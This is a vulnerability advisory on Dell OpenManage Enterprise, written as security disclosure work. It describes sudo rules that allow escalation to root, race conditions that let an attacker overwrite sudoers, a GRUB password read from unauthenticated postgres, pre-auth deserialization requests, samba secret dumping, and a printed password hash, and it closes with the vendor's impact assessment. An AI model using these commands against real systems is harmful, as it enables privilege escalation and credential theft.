mcsitasksvcUsers belonging to group mcsitasksvc can sudo:
%mcsitasksvc ALL=NOPASSWD:/usr/bin/mount, /usr/bin/cp, /usr/bin/umount, /usr/bin/gpg,/opt/dell/mcsi/appliance/scripts/pam/config_user_access.sh,/opt/dell/mcsi/appliance/scripts/port_validation.sh,/opt/dell/mcsi/appliance/scripts/change_timezone.py,/opt/dell/mcsi/appliance/scripts/restore_application.py,/opt/dell/mcsi/appliance/scripts/certificate_tool.py,/opt/dell/mcsi/appliance/scripts/change_hostname.py,/opt/dell/mcsi/appliance/scripts/address_configuration.py,/opt/dell/mcsi/appliance/scripts/virtual_ip_configuration.py,/opt/dell/mcsi/appliance/scripts/current_network_settings.py, /usr/bin/lscpu,/usr/bin/free,/opt/dell/mcsi/appliance/scripts/ntp_tool.py,/opt/dell/mcsi/appliance/scripts/dump_logs.py,/opt/dell/mcsi/appliance/scripts/change_webconfig.py,/opt/dell/mcsi/appliance/scripts/branding.py,/usr/bin/systemctl,/usr/bin/date,/usr/bin/ntpstat,/usr/sbin/ntpq,/usr/bin/python3,/usr/sbin/ntpdc,/opt/dell/mcsi/appliance/scripts/configureSSHDTimeout.sh,/opt/dell/mcsi/appliance/scripts/resolve.sh,/usr/bin/nmcli
%mcsitasksvc ALL=NOPASSWD:/opt/dell/omc/utilities/cifsconfiguration/bin/reset_cifs_password.sh, /opt/dell/omc/utilities/cifsconfiguration/bin/test_cifs_config.sh, /usr/bin/smbpasswd, /usr/bin/systemctl
At least /usr/bin/mount, /usr/bin/cp, /usr/bin/gpg, /usr/bin/systemctl and /usr/bin/python3 can be used to elevate to root.
tomcatUsers belonging to group tomcat can sudo:
%tomcat ALL=NOPASSWD:/opt/dell/mcsi/appliance/scripts/ntp_tool.py,/opt/dell/mcsi/appliance/scripts/rsyslog_tool.py,/opt/dell/mcsi/appliance/scripts/change_timezone.py,/opt/dell/mcsi/appliance/scripts/certificate_tool.py,/opt/dell/mcsi/appliance/scripts/change_hostname.py,/opt/dell/mcsi/appliance/scripts/login_iprange.py,/opt/dell/mcsi/appliance/scripts/address_configuration.py,/opt/dell/mcsi/appliance/scripts/current_network_settings.py,/opt/dell/mcsi/appliance/scripts/restore_application.py,/opt/dell/mcsi/appliance/scripts/dump_logs.py,/usr/bin/python3,/opt/dell/mcsi/appliance/scripts/branding.py,/opt/dell/mcsi/appliance/scripts/commandexecutor.sh,/opt/dell/mcsi/appliance/scripts/resolve.sh,/opt/dell/mcsi/appliance/scripts/port_validation.sh,/usr/bin/systemctl,/opt/dell/mcsi/appliance/scripts/change_webconfig.py,/opt/dell/mcsi/appliance/scripts/sysloglogging.py,/usr/bin/date,/usr/bin/ntpstat,/usr/sbin/ntpq,/usr/sbin/ntpdc,/opt/dell/mcsi/appliance/scripts/chassis_nw_settings.py,/opt/dell/mcsi/appliance/scripts/virtual_ip_configuration.py
%tomcat ALL=NOPASSWD:/usr/bin/mount, /usr/bin/cp, /usr/bin/umount, /var/consoleupdate/unzip_uploadedfile.py
At least /usr/bin/python3, /usr/bin/systemctl, /usr/bin/mount and /usr/bin/cp can be used to elevate to root.
omctuiUsers belonging to group omctui can sudo:
%omctui ALL=NOPASSWD:/usr/bin/systemctl,/usr/sbin/shutdown,/usr/bin/localectl
/usr/bin/systemctl can be used to elevate to root.
/opt/dell/mcsi/appliance/scripts/security_tool.sh contains multiple TOCTOUs:
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/appliance/scripts/security_tool.sh
[...]
456 function turnOffRequireRetty
457 {
458 echo "turning off RequireRetty"
459
460 # make it so the requiretty is commented out.
461 sed 's/Defaults requiretty/#Defaults requiretty/' /etc/sudoers > /tmp/sudoers.bk
462 mv /tmp/sudoers.bk /etc/sudoers
463 chmod 0440 /etc/sudoers
464 }
In line 461, no check is done on /tmp/sudoers.bk - so the file may already exist with attacker's rights.
Race condition in line 462 - an attacker previously controlling /tmp/sudoers.bk will overwrite /etc/sudoers
with its own policies, resulting in a privilege escalation.
This race condition is now located in line 168 in version 3.6.1.
And here:
505 local targets="/usr/bin/python3"
506 targets="${targets},${THIS_DIR}/change_admin_password.sh"
507 targets="${targets},/usr/sbin/passwd"
508 targets="${targets},${THIS_DIR}/change_timezone.py"
509 targets="${targets},${THIS_DIR}/certificate_tool.py"
510
511 # remove existing tomcat permissions from the sudoesrs file
512 sed 's/%admin ALL=NOPASSWD:.*$//' /etc/sudoers > /tmp/sudoers.bk
513 mv /tmp/sudoers.bk /etc/sudoers
514 chmod 0440 /etc/sudoers
515
516 # add new tomcat permissions to the sudoers file
517 echo "%admin ALL=NOPASSWD:${targets}" >> /etc/sudoers
Race condition in line 513 - an attacker controlling /tmp/sudoers.bk will overwrite /etc/sudoers
with its own policies, resulting in a privilege escalation.
This race condition is now located in line 220 in version 3.6.1.
The script security_tool.sh contains interesting settings for the tomcat user, in the function configureShadowAccess:
[root@openmanage-enterprise /]# cat /opt/dell/mcsi/appliance/scripts/security_tool.sh
[...]
466 # this allows rest/shiro to authenticate admin user from tomcat using the pam database
467 function configureShadowAccess
468 {
469 if ! $(ls -la /etc/shadow | grep -q shadow-readers); then
470 echo "configuring shadow access"
471 groupadd shadow-readers
472 usermod -a -G shadow-readers tomcat <-- tomcat added to group `shadow-readers`
473 chown root:shadow-readers /etc/shadow <-- non-standard permissions for /etc/shadow
474 chmod 640 /etc/shadow
475 service systemd-logind restart
476 else
477 echo "shadow access already configured"
478 fi
479 }
This will allow the tomcat user to read the /etc/shadow file.
This function is not called in version 3.5 and 3.6.1 but may have been used before:
573 function configureAccounts
574 {
575 #configureShadowAccess
This function is located in line 174 in version 3.6.1.
The grub password is located in the file /etc/grub.d/40_custom.
This file is generated by /opt/dell/mcsi/appliance/scripts/set_grub_password.sh:
[...]
12 pwd="$(/usr/bin/psql -qtAX -U core_admin -d enterprisedb -c 'select guid from core.application_info')"
[...]
28 sed -i "s/password root.*/password root $pwd/g" /etc/grub.d/40_custom
29 /usr/sbin/grub2-mkconfig -o /boot/grub2/grub.cfg
30 echo GRUB password is updated
[...]
Even if /etc/grub.d/40_custom is 755, it is impossible to read the file because /etc/grub.d is 700 root:root.
[root@openmanage-enterprise lpe-priv8-3/]# ls -la /etc/grub.d/40_custom
-rwxr-xr-x. 1 root root 288 May 16 04:07 /etc/grub.d/40_custom
[root@openmanage-enterprise lpe-priv8-3/]# ls -la /etc/grub.d | grep ' \.$'
drwx------. 2 root root 4096 Sep 30 2020 .
But it is possible to extract the grub password from the auth-less local postgres database:
sh-4.2$ /usr/bin/psql -qtAX -U core_admin -d enterprisedb -c 'select guid from core.application_info'
09b50d53-189c-221c-7996-1c0ee1279201
The password can be confirmed by reading /etc/grub.d/40_custom:
[root@openmanage-enterprise /]# tail -n 1 /etc/grub.d/40_custom
password root 09b50d53-189c-221c-7996-1c0ee1279201
The solution uses jackson and ObjectMapper to read attacker-controlled json inputs.
It appears authentification doesn't really work when sending attacker-controlled data on API endpoints:
The authentication system appears to be broken as it parses attacker-controlled data before checking the authentication.
Sending correct data will trigger the authentication:
kali# wget -O- --no-check-certificate --post-data '{"targets":["1"],"command":"ls","operation":"REMOTE_SSH_EXEC"}' --header "Content-Type: application/json;charset=utf-8" https://192.168.1.100/omc/api/Console/RemoteCommandTask
HTTP request sent, awaiting response... 400 Bad Request
2021-05-16 12:57:17 ERROR 400: Bad Request.
From the logs:
[ERROR] 2021-05-16 12:57:15.158 [ajp-bio-8009-exec-1] JobsController - org.springframework.web.client.HttpClientErrorException: 401 Unauthorized
Now, by replacing the targets field, "1" becomes "a", it is possible to create deserialization errors while sending incorrect inputs while creating a RemoteCommandTask:
POST /omc/api/Console/RemoteCommandTask HTTP/1.1
Host: 192.168.1.100
Content-Type: application/json;charset=utf-8
Content-Length: 62
{"targets":["a"],"command":"ls","operation":"REMOTE_SSH_EXEC"}
Or with wget:
kali# wget -O- --no-check-certificate --post-data '{"targets":["a"],"command":"ls","operation":"REMOTE_SSH_EXEC"}' --header "Content-Type: application/json;charset=utf-8" https://192.168.1.100/omc/api/Console/RemoteCommandTask
HTTP request sent, awaiting response... 500 Internal Server Error
2021-05-16 12:58:25 ERROR 500: Internal Server Error.
And from the logs, no more "401 Unauthorized" but some deserialization errors:
From /var/log/dell/mcsi/tomcat/application.log:
[ERROR] 2021-05-16 12:58:39.554 [ajp-bio-8009-exec-4] BaseController - org.springframework.http.converter.HttpMessageNotReadableException: JSON parse error: Cannot deserialize value of type `java.lang.Integer` from String "a": not a valid Integer value; nested exception is com.fasterxml.jackson.databind.exc.InvalidFormatException: Cannot deserialize value of type `java.lang.Integer` from String "a": not a valid Integer value
at [Source: (PushbackInputStream); line: 1, column: 13] (through reference chain: com.dell.enterprise.model.omc.RemoteCommandTask["targets"]->java.util.ArrayList[0])
org.springframework.http.converter.HttpMessageNotReadableException: JSON parse error: Cannot deserialize value of type `java.lang.Integer` from String "a": not a valid Integer value; nested exception is com.fasterxml.jackson.databind.exc.InvalidFormatException: Cannot deserialize value of type `java.lang.Integer` from String "a": not a valid Integer value
at [Source: (PushbackInputStream); line: 1, column: 13] (through reference chain: com.dell.enterprise.model.omc.RemoteCommandTask["targets"]->java.util.ArrayList[0])
[100s of lines]
So it appears this input is deserialized before the authentication process is done.
We saw this behavior - deserialization or checking of validity of JSON using jackson without authentication - in several web forms present in the solution, accepting JSON or XML, mainly before any authentication.
After some tests, we found 1 form that apparently checks the authentication, but it is still possible to generate deserialization errors (post-auth):
POST /core/api/Console/oidc/checkRegistration HTTP/1.1
Host: 192.168.1.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
X-Requested-With: managementConsole
Content-Length: 24
Origin: https://192.168.1.100
Connection: close
Referer: https://192.168.1.100/core/console/console.html
Cookie: X-Auth-Token=f544973e-4c0e-4522-9b8a-a65498ebccfc
{"oidcServerIds":[a1]}
From /var/log/dell/mcsi/tomcat/application.log:
[ERROR] 2021-05-16 13:12:15.356 [ajp-bio-8009-exec-4] BaseController - org.springframework.http.converter.HttpMessageNotReadableException: JSON parse error: Unrecognized token 'a1': was expecting (JSON String, Number, Array, Object or token 'null', 'true' or 'false'); nested exception is com.fasterxml.jackson.databind.JsonMappingException: Unrecognized token 'a1': was expecting (JSON String, Number, Array, Object or token 'null', 'true' or 'false')
at [Source: (PushbackInputStream); line: 1, column: 24] (through reference chain: com.dell.enterprise.model.ui.OIDCRegistrationStatusList["oidcServerIds"])
org.springframework.http.converter.HttpMessageNotReadableException: JSON parse error: Unrecognized token 'a1': was expecting (JSON String, Number, Array, Object or token 'null', 'true' or 'false'); nested exception is com.fasterxml.jackson.databind.JsonMappingException: Unrecognized token 'a1': was expecting (JSON String, Number, Array, Object or token 'null', 'true' or 'false')
[...]
at Caused by: com.fasterxml.jackson.databind.JsonMappingException: Unrecognized token 'a1': was expecting (JSON String, Number, Array, Object or token 'null', 'true' or 'false')
[...]
at com.fasterxml.jackson.databind.deser.BeanDeserializerBase.wrapAndThrow(BeanDeserializerBase.java:1714) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserializeFromObject(BeanDeserializer.java:371) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:159) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:4218) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3267) ~[jackson-databind-2.10.3.jar:2.10.3]
[...]
at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:277) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:245) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:27) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.impl.FieldProperty.deserializeAndSet(FieldProperty.java:138) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserializeFromObject(BeanDeserializer.java:369) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:159) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:4218) ~[jackson-databind-2.10.3.jar:2.10.3]
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3267) ~[jackson-databind-2.10.3.jar:2.10.3]
at org.springframework.http.converter.json.AbstractJackson2HttpMessageConverter.readJavaType(AbstractJackson2HttpMessageConverter.java:237) ~[spring-web-4.3.28.RELEASE.jar:4.3.28.RELEASE]
[...]
Due to the lack of interesting java gadgets, we didn't manage to exploit these deserialization errors.
These pre-auth and post-auth Java deserializations have been silently patched in version 3.6.1.
When installing the appliance, an idrac user will be created with a random password:
[root@openmanage-enterprise /]# cat /etc/shadow
[...]
idrac:$6$QtG/5PHz$1ZW7aSUeLJ6mlQM/sO/g7RLxKNUQrTwksmkJH9/meYkPTlgSvXLrR6CUikYzDg27bvprfm.EgimjX1e3yaxzC1:18763:0:99999:7:::
[root@openmanage-enterprise /]# cat /etc/passwd
[...]
idrac:x:1008:1016::/shared/dell/omc/cifs/idrac:/bin/false
This user may be for samba sharing functionality - we didn't success to use this functionality from the management interface - maybe it will be possible to configure it in the next versions.
Interesting files are:
It is possible to extract configurations with tdbtool:
tdbtool /var/lib/samba/private/secrets.tdb dump and tdbtool /var/lib/samba/private/passdb.tdb dump
1 point has been considered as a vulnerability by the vendor ("Remote Auth Bypass with 2 pre-auth RCEs in docker instances") because the attacker is not supposed to get a shell (e.g. with a command injection or java deserialization) or to access postgres running on the appliance (via a shell or via the network).
Interestingly, Dell confirmed this vulnerability that is in fact a chain of multiple "no-impact" vulnerabilities (lack of authentication for postgres, command execution in redis and in postgres, R/W access to the postgres).
Other issues have not been considered having security impacts. Dell confirmed postgres does not use authentication and there is no security impact in a normal situation.
Futhermore, this solution has an history of command injections - nonetheless the threat model doesn't appear to include command injections ("No shell access or other ingress points available for use.").
2 vulnerabilities have been silently patched by the vendor, one DSA will be published (java deserialization).
The vendor provided an impact assessment and explanations, as shown below:
Hardcoded ActiveMQ Credentials -> No impact
ActiveMQ credentials are not used in the appliance. File artifacts will be removed in a future release and are unused in Dell EMC OpenManage Enterprise (OME) and Dell EMC OpenManage Enterpise-Modular (OME-M).
Also, note that the ActiveMQ web console is disabled within OME. In addition, as confirmed by the researcher, the firewall blocks incoming access to the relevant ports (46403 / 61616) and SELinux policies prevent users from reading these files.
Harcdoded ActiveMQ credentials for JMX -> No impact
ActiveMQ JMX configuration is disabled. File artifacts will be removed in a future release and are unused in OME and OME-M. SELinux policies prevent regular users from reading the contents of these files.
Hardcoded ActiveMQ Keystore + password for keystore file (in jetty.xml) -> No impact
ActiveMQ keystore is not used in OME/OME-M. These artifacts will be removed in a future release.
SELinux policies prevent regular user read access.
Hardcoded JDBC passwords -> No impact
DB configured to allow access only from localhost. Also, the passwords indicated by the researcher are not used in OME / OME-M. In addition, (in OME 3.5 and later) SELinux policies add another layer of read access protection to the files with these passwords.
Hardcoded passwords for core_admin and replicator -> No impact
DB is configured to only allow access from localhost. The passwords indicated are not used in OME or OME-M and will be removed in a future release.
KeyStore using hardcoded Key -> No impact
SELinux policies and current mitigation in place prevent file system access.
Permissive ACL for Postgres -> No impact
The attack vectors of shell access / ingress via Docker are not available to users - Docker path shut off in original design of product.
Local Privilege Escalation (as postgres) inside postgres docker -> No impact
The attack vectors of shell access / ingress via Docker are not available to users - Docker path shut off in original design of product.
Remote Auth Bypass with 2 pre-auth RCEs in docker instances -> Impact
Remediation available in OME version 3.6.2 and OME-M 1.30.10, more information in Dell Security Advisory - DSA-2021-113 (https://www.dell.com/support/kbdoc/000189673)
Undocumented system account -> No impact
User cannot log in to account.
Database key stored in the database -> No impact
Postgres is configured to allow access from internal appliance services - no security impact
Weak permission on SSL/TLS Key -> No impact
No shell access for use in exploitation.
As an additional layer of defense, SELinux policies will be reviewed and updated in future releases.
Multiple Local Privilege Escalations from mcsimetricssvc - partially silently patched in version 3.6.1 -> No impact
No shell access or other ingress points available for use.
Multiple Local Privilege Escalations from group mcsitasksvc -> No impact
No shell access or other ingress points available for use.
Multiple Local Privilege Escalations from group tomcat -> No impact
No shell access or other ingress points available for use.
Local Privilege Escalation from group omctui -> No impact
No shell access or other ingress points available for use.
Multiple TOCTOUs in "security_tool.sh" shell script -> No impact
Mitigation in place to block shell access by default.
Incorrect access for tomcat -> No impact
Debug level script is not used in OME/OME-M and will be removed in future releases.
Grub password stored in postgres, without authentication for local user -> No impact
Access to postgres for password is only available to users who already have hypervisor admin privileges.
Pre-auth and post-auth Java Deserializations - silently patched in version 3.6.1 -> No impact
Found in prior internal security audit - issue mitigated in version 3.6.1, more information in Dell Security Advisory - DSA-2021-113 (https://www.dell.com/support/kbdoc/000189673).
Idrac User -> No impact
These are credentials to access an internal CIFS share / not a user that can log in to OME. The passwords are rotated on a time interval (not configurable) and handed out by OME to clients who in turn need access to the internal CIFS share. Binary content that can be introduced on this share is limited to DUPS which are signed / signature verified by the iDRAC and other entities prior to flashing. Non-binary content is the SCP profile that is used to configure systems. The ability to invoke operations that would access the CIFS share / use content on it is relegated to authenticated high privileged OME users (admin / Device Manager roles)
These vulnerabilities were found by Pierre Kim (@PierreKimSec) and Alexandre Torres (@AlexTorSec).
https://pierrekim.github.io/advisories/2021-dell-openmanage-enterprise-0x00.txt
https://pierrekim.github.io/blog/2021-07-19-dell-openmanage-enterprise-0day-vulnerabilities.html
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
published on 2021-07-19 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>